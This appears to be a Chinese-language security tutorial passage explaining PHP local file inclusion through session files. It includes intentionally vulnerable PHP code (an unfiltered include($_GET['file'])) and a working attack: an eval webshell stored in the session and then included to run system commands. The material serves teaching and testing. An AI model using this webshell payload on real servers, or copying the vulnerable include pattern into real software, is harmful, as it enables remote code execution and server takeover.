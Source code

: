 ## LFI Session
 LFI本地文件包含漏洞主要是包含本地服务器上存储的一些文件，例如Session会话文件、日志文件、临时文件等。但是，只有我们能够控制包含的文件存储我们的恶意代码才能拿到服务器权限。

简单的理解session文件包含漏洞就是在用户可以控制session文件中的一部分信息，然后将这部分信息变成我们的精心构造的恶意代码，之后去包含含有我们传入恶意代码的这个session文件就可以达到攻击效果。

简单示例（无限制）：
session.php（session文件）

```bash
<?php
 	session_start();
    $username = $_POST['username'];
    $_SESSION["username"] = $username;
?>
```
index.php(包含利用)

```bash
<?php
	
	$file  = $_GET['file'];
    include($file);
?>
```

漏洞利用：
对username没有限制，对其传入恶意代码；

```bash
http://192.33.6.145/FI/session/session.php

POST
username=<?php eval($_REQUEST[Qftm]);?>
```
![](https://img-blog.csdnimg.cn/20210128032122783.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
同时修改cookie内容，sessionid

payload：

```bash
PHPSESSID：7qefqgu07pluu38m45isiesq3s

index.php?file=/var/lib/php/sessions/sess_7qefqgu07pluu38m45isiesq3s

POST
Qftm=system('whoami');
```
![执行成功](https://img-blog.csdnimg.cn/20210128032316309.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
成功执行

以上为理想化漏洞实现

---
## 包含限制情况
